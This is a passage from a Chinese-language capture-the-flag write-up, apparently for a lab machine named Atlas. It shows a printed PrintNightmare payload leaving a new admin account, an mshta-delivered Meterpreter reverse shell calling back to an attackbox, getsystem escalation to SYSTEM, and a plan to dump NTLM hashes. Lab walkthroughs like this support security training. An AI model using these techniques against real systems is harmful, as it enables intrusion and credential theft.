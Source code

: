 ```
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
**PS C:\Users\Atlas> net user**User accounts for \\GAIA--------------------------------------------------------------------
adm1n **[*]**                Administrator            Atlas
DefaultAccount           Guest                    WDAGUtilityAccount
The command completed successfully.**PS C:\Users\Atlas>**
```

![](img/9275b45669e48fb28ed3af7b33d6f03a.png)

**图 8**

然后，我通过 Remmina 登录到新的 adm1n 帐户，使用开发阶段描述的程序(特别是图 4)，以管理员身份打开 Windows 命令提示符(图 8a)，指示`mshta.exe`通过 dropper 获取 Meterpreter 反向外壳(图 8b)并…

```
[*] atlas.htm hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to atlas.thm
[*] Meterpreter session 2 opened (<attackbox ip>:4444 -> atlas.thm:49842 ) at [redacted] -0400msf6 exploit(windows/misc/hta_server) > sessions -i 2
[*] Starting interaction with 2...**meterpreter >**
```

我将再次尝试`getsystem`权限提升方法:

```
[*] Starting interaction with 2...**meterpreter > getsystem**
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
**meterpreter > getuid**
Server username: NT AUTHORITY\SYSTEM
**meterpreter >**
```

太棒了。

有了`SYSTEM`级别的权限，我现在可以继续将哈希转储到系统中。出于持久性的目的，我将获取`Administrator`账户的 NTLM 散列。
